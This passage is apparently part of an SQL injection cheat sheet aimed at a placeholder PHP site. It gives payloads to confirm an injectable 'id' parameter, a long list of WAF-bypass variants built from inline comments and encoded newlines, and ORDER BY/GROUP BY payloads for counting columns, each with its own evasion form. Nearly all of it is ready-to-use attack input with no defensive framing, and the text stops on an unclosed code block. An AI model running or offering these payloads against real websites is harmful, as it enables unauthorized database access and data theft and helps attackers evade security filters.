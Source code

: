 ```http://domain.com/index.php?id=1```  
```http://domain.com/index.php?id=1'-- -```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1'--```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1+--+```  
Website might loads successfuly, but it might shows error also

## Bypassing WAF to detect the vulnerability (if the first methodology didn't work)

In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

```http://domain.com/index.php?id=1'--/**/-```  
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

```http//domain.com/index.php?id=/^.*1'--+-.*$/```  
```http//domain.com/index.php?id=/*!500001'--+-*/```  
```http//domain.com/index.php?id=1'--/**/-```  
```http//domain.com/index.php?id=1'--/*--*/-```  
```http//domain.com/index.php?id=1'--/*&a=*/-```  
```http//domain.com/index.php?id=1'--/*1337*/-```  
```http//domain.com/index.php?id=1'--/**_**/-```  
```http//domain.com/index.php?id=1'--%0A-```  
```http//domain.com/index.php?id=1'--%0b-```  
```http//domain.com/index.php?id=1'--%0d%0A-```  
```http//domain.com/index.php?id=1'--%23%0A-```  
```http//domain.com/index.php?id=1'--%23foo%0D%0A-```  
```http//domain.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-```  
```http//domain.com/index.php?id=1'--#qa%0A#%0A-```  
```http//domain.com/index.php?id=/*!20000%0d%0a1'--+-*/```  
```http//domain.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/```  

## Find the number of columns using 'ORDER BY' query  

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

```http://domain.com/index.php?id=1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

- If the payload shows up error, try setting a negative value:  
```http://domain.com/index.php?id=-1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

  - If the payload shows up error, try removing the quote which might cause SQL error:
  ```http://domain.com/index.php?id=605 order by 1-- -```  
  ```http://domain.com/index.php?id=-605 order by 1-- -```  
 These both queries musn't shows up error. If error is still ocurring, try the following payloads:

    - If both of payloads don't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.  
```http://domain.com/index.php?id=1' order by 1 desc-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -```  
```http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1' order/**_**/by 1-- -```  
```http://domain.com/index.php?id=1\ order by 1-- -```  
```http://domain.com/index.php?id=1' order by 1 asc-- -```  
```http://domain.com/index.php?id=1' group by 1 asc-- -```  
```http://domain.com/index.php?id=1' AND 0 order by 1-- -```  
    
```